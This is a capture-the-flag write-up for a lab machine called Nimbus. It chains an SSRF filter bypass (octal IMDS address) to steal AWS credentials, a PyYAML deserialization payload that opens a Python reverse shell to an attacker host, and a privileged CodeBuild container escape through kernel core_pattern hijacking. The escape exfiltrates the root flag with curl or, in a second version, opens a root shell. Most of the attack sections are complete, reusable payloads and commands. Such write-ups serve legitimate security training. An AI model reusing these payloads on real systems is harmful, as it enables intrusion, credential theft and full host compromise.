

# Nimbus Write-up

## Initial Enumeration

As with any assessment, we begin by identifying the exposed attack surface.

A full TCP scan revealed the listening services.

```bash
nmap -p- --min-rate 5000 <TARGET_IP>
```

Only two ports were exposed: **22 (SSH)** and **80 (HTTP)**. A second scan was performed to identify service versions and execute the default NSE scripts.

```bash
nmap -p22,80 -sV -sC <TARGET_IP>
```

The results identified an **OpenSSH** service and an **Nginx** web server redirecting requests to `nimbus.htb`.

```bash
echo "<TARGET_IP> nimbus.htb" | sudo tee -a /etc/hosts
```

Browsing to the application revealed that the Job Submitter was temporarily left unauthenticated during a migration window.


---

## Discovering the SSRF Vulnerability

Exploring the application revealed a feature allowing users to upload a YAML configuration or provide a remote URL through a **Preview** function.


---

Because the backend needed to retrieve remote resources before validating them, this immediately suggested a potential Server-Side Request Forgery (SSRF) attack surface.

The application attempted to protect itself by only allowing `.yaml` URLs while blacklisting addresses such as `localhost`, `127.0.0.1`, and `169.254.169.254`. Both protections relied on shallow validation.

### Exploiting the SSRF

To verify the vulnerability, we targeted the AWS Instance Metadata Service (IMDSv1), which exposes temporary IAM credentials.

The blacklist was bypassed by converting the metadata IP to octal notation:

```text
0251.0376.0251.0376
```

The file extension check was bypassed by appending:

```text
?file.yaml
```

The final payload became:

```text
http://0251.0376.0251.0376/latest/meta-data/iam/security-credentials/nimbus-web-role?file.yaml
```

The response disclosed temporary AWS credentials for the **nimbus-web-role** IAM role.


---

## Enumerating LocalStack

The credentials were exported into the AWS CLI environment.

```bash
export AWS_ACCESS_KEY_ID="<ACCESS_KEY>"
export AWS_SECRET_ACCESS_KEY="<SECRET_KEY>"
export AWS_SESSION_TOKEN="<SESSION_TOKEN>"
export AWS_DEFAULT_REGION="us-east-1"
```

Since the target used floci/LocalStack, every request specified the custom endpoint.

```bash
aws --endpoint-url http://aws.nimbus.htb sqs list-queues
```

This revealed:

```text
http://floci:4566/847219365028/nimbus-jobs
```

The queue strongly suggested that another service asynchronously processed submitted jobs.

---

## Remote Code Execution

Further investigation revealed that the backend worker processed queue messages using PyYAML's unsafe `yaml.load()` function.

Unlike `yaml.safe_load()`, `yaml.load()` supports arbitrary object deserialization, allowing constructors such as `!!python/object/apply` to instantiate Python objects during parsing.

By abusing this behavior, we instructed the worker to execute `subprocess.Popen`, resulting in operating system command execution.

A malicious YAML payload containing a Python reverse shell was created and saved as `shell.yaml`.

```YAML
name: nightly-db-backup 
schedule: '* * * * *' 
runtime: python3.11 
exploit: !!python/object/apply:subprocess.Popen [ ['python3', '-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'] ]
```

Start a listener:

```bash
nc -nvlp <PORT>
```

Submit the payload to the queue:

```bash
aws --endpoint-url http://aws.nimbus.htb sqs send-message \
  --queue-url "http://floci:4566/847219365028/nimbus-jobs" \
  --message-body "$(cat shell.yaml)"
```

Once the worker consumed the message, the payload was deserialized and a reverse shell connected back to our listener.

---

## User Access

The reverse shell landed inside the worker container as the **worker** user.

The user flag was then retrieved.

```bash
cat /home/worker/user.txt
```

At this stage the initial foothold on the machine had been successfully established.

## Process Enumeration

Continue enumerating the worker container to better understand the application's architecture and validate the assumptions made during exploitation.

Listing the running processes showed the services executing inside the container.

```bash
ps aux
```

The output confirmed that the container's primary process was:

```text
python3 -u worker.py
```

This indicated that a dedicated Python worker continuously processed queued jobs. The remaining `python3 -c...` processes corresponded to the reverse shell established during exploitation, confirming that the payload had been executed by the worker service rather than another component of the application.


## Application Enumeration

Having identified `worker.py` as the container's primary process, the next step was to inspect the application itself.

Navigating to the application directory revealed a minimal codebase.

```bash
cd /app
ls -la
```

Only two files were present:

- `worker.py`
- `requirements.txt`

Since the entire application logic appeared to reside within a single Python script, reviewing its source code became the natural next step in understanding how jobs were processed and ultimately why remote code execution was possible.


## Source Code Review

Reviewing the source code of `worker.py` confirmed the assumptions made during exploitation.

```bash
cat worker.py
```

The worker continuously polled the `nimbus-jobs` SQS queue, parsed incoming YAML messages using:

```python
yaml.load(..., Loader=yaml.Loader)
```

and executed the contents of the `script` field by passing it directly to:

```python
python3 -c
```

Using `yaml.load()` with untrusted input performs unsafe object deserialization, allowing arbitrary Python objects to be instantiated during parsing. This design flaw explains why the malicious YAML payload successfully achieved arbitrary code execution and confirms the root cause of the compromise.


To better understand the application's runtime behaviour, I manually executed the worker process and observed how it handled queued messages.

```bash
python3 worker.py
```

The worker immediately began polling the `nimbus-jobs` queue.

This confirmed that the worker continuously trusted and executed user-controlled job definitions retrieved from the SQS queue. Together with the unsafe use of `yaml.load()`, this behaviour fully explained why arbitrary Python code could be executed simply by submitting a crafted YAML document.


## Privilege Escalation

Attempts to communicate directly with the local LocalStack instance (`floci`) using the previously acquired IAM temporary credentials from the host shell consistently resulted in `403 AccessDenied` responses.

This demonstrated that although the compromised `nimbus-worker-role` and `nimbus-web-role` IAM roles were heavily restricted, the internal `worker.py` daemon processed queued jobs using an unthrottled administrative context. Instead of interacting with LocalStack directly, the attack was therefore performed by submitting a malicious job to the application's asynchronous processing queue.

---

## Exploitation Theory

Linux handles process crashes (segmentation faults) according to the value stored in:

```text
/proc/sys/kernel/core_pattern
```

When `core_pattern` begins with the pipe (`|`) character, the kernel interprets the remaining string as an executable and launches it as **root** whenever a process crashes.

Since the LocalStack deployment exposed the AWS CodeBuild service, it was possible to instruct the privileged backend worker to create and execute a new CodeBuild project using the local image:

```text
floci/floci:latest
```

with:

```text
privilegedMode = true
```

A privileged container shares the host kernel, allowing writes to host kernel interfaces such as `/proc/sys/kernel/core_pattern`.

By dynamically determining its OverlayFS storage path from:

```text
/proc/self/mountinfo
```

the build container could locate its corresponding host filesystem (`upperdir`) and configure the kernel to execute a malicious script stored inside the container workspace.

When the build process intentionally crashed, the host kernel executed this script as **root**, resulting in container escape and host code execution.

---

# Crafting the Exploit

To automate the attack, the entire CodeBuild project creation, execution, and kernel hijacking logic was embedded inside a Python script.

This script was wrapped inside a YAML payload that would later be submitted to the vulnerable `worker.py` daemon through the SQS queue.

The payload (`escape.yaml`) is shown below.

```yaml
name: escape-via-queue
script: |
    import boto3

    buildspec = r"""version: 0.2
    phases:
      build:
        commands:
          - id || true
          - UDIR=$(sed -n 's/.*upperdir=\([^,]*\).*/\1/p' /proc/self/mountinfo | head -1) || true
          - printf '#!/bin/sh\ncat /root/root.txt > %s/rootflag.txt\nchmod 777 %s/rootflag.txt\n' "$UDIR" "$UDIR" > /exploit_root.sh || true
          - chmod +x /exploit_root.sh || true
          - echo "|${UDIR}/exploit_root.sh" > /proc/sys/kernel/core_pattern || true
          - ulimit -c unlimited || true
          - bash -c 'kill -11 $$' || true
          - sleep 2 || true
          - curl -sf -X POST http://<ATTACKER_IP>:<PORT>/root -d "flag=$(cat /rootflag.txt 2>/dev/null | base64 -w0 || echo NOTFOUND)" --max-time 10 || true
    """

    cb = boto3.client(
        'codebuild',
        region_name='us-east-1',
        endpoint_url='http://floci:4566',
        aws_access_key_id='test',
        aws_secret_access_key='test'
    )

    try:
        cb.create_project(
            name='nimbus-exploit',
            source={'type': 'NO_SOURCE'},
            artifacts={'type': 'NO_ARTIFACTS'},
            environment={
                'type': 'LINUX_CONTAINER',
                'computeType': 'BUILD_GENERAL1_SMALL',
                'image': 'floci/floci:latest',
                'privilegedMode': True
            },
            serviceRole='arn:aws:iam::000000000000:role/codebuild-role'
        )

    except Exception:
        pass

    cb.start_build(
        projectName='nimbus-exploit',
        environmentVariablesOverride=[
            {'name': 'BASH_FUNC_id%%', 'value': '() { echo uid=1000; }', 'type': 'PLAINTEXT'}
        ],
        buildspecOverride=buildspec
    )
```

---

# Preparing the Listener

A listener was started to receive the exfiltrated root flag from the host after successful exploitation.

For example:

```bash
nc -nvlp <PORT>
```

or alternatively using a simple HTTP server capable of handling POST requests.

---

# Sending the Payload

The malicious YAML payload was injected into the application's asynchronous job queue using the local AWS CLI.

```bash
aws --endpoint-url http://aws.nimbus.htb sqs send-message \
  --queue-url "http://floci:4566/847219365028/nimbus-jobs" \
  --message-body "$(cat escape.yaml)"
```

---

# Execution Flow

Once the vulnerable `worker.py` daemon processed the queued message, the following chain of events occurred:

1. The worker executed the embedded Python script with its privileged LocalStack permissions.

2. A new CodeBuild project named `nimbus-exploit` was created.

3. The project launched a privileged container using the `floci/floci:latest` image.

4. The build process parsed `/proc/self/mountinfo` to determine its OverlayFS `upperdir` on the host filesystem.

5. A malicious script (`exploit_root.sh`) was written into the container filesystem, which was simultaneously accessible from the host through the OverlayFS storage directory.

6. The build modified the host kernel configuration by setting:

   ```text
   /proc/sys/kernel/core_pattern
   ```

   to:

   ```text
   |<upperdir>/exploit_root.sh
   ```

7. The build intentionally crashed itself using:

   ```bash
   kill -11 $$
   ```

8. The host kernel intercepted the segmentation fault and executed the malicious script as **root**.

9. The script copied the contents of:

   ```text
   /root/root.txt
   ```

   into the shared OverlayFS directory.

10. Finally, the build container read the flag, Base64-encoded it, and exfiltrated it back to the attacker's listener.


# Retrieving the Root Flag

The exfiltrated flag was received by the listener in Base64 format and decoded locally.

```bash
echo "<BASE64_STRING>" | base64 -d
```

The decoded output contained the contents of:

```text
/root/root.txt
```

confirming successful container escape and arbitrary code execution on the host as the **root** user.

---

# Alternative Payload: Interactive Root Shell

The previous proof of concept demonstrated arbitrary code execution on the host by exfiltrating the root flag. As an alternative, the same technique can be adapted to obtain a fully interactive root shell.

The following payload replaces the flag-reading logic with a Python reverse shell executed through the `core_pattern` handler:

```yaml
name: escape-via-queue

script: |
    import boto3

    # Define the buildspec payload that will run inside the privileged CodeBuild container
    buildspec = r"""version: 0.2
    phases:
      build:
        commands:
          - UDIR=$(sed -n 's/.*upperdir=\([^,]*\).*/\1/p' /proc/self/mountinfo | head -1) || true
          - printf '#!/bin/sh\npython3 -c "import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"<ATTACKER_IP>\\",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\\"/bin/bash\\")"\n' > /exploit_root.sh || true
          - chmod +x /exploit_root.sh || true
          - echo "|${UDIR}/exploit_root.sh" > /proc/sys/kernel/core_pattern || true
          - ulimit -c unlimited || true
          - bash -c 'kill -11 $$' || true
    """

    cb = boto3.client(
        "codebuild",
        region_name="us-east-1",
        endpoint_url="http://floci:4566",
        aws_access_key_id="test",
        aws_secret_access_key="test"
    )

    try:
        cb.create_project(
            name="nimbus-poc-final",
            source={"type": "NO_SOURCE"},
            artifacts={"type": "NO_ARTIFACTS"},
            environment={
                "type": "LINUX_CONTAINER",
                "computeType": "BUILD_GENERAL1_SMALL",
                "image": "floci/floci:latest",
                "privilegedMode": True
            },
            serviceRole="arn:aws:iam::000000000000:role/codebuild-role"
        )
    except Exception:
        pass

    cb.start_build(
        projectName="nimbus-poc-final",
        environmentVariablesOverride=[
            {
                "name": "BASH_FUNC_id%%",
                "value": "() { echo uid=1000; }",
                "type": "PLAINTEXT"
            }
        ],
        buildspecOverride=buildspec
    )
```

After starting a listener (e.g., `nc -nvlp <PORT>`) and submitting the payload to the vulnerable queue, the host connects back with a fully interactive **root** shell.



At this point, the host is completely compromised, providing unrestricted root access outside the container environment.
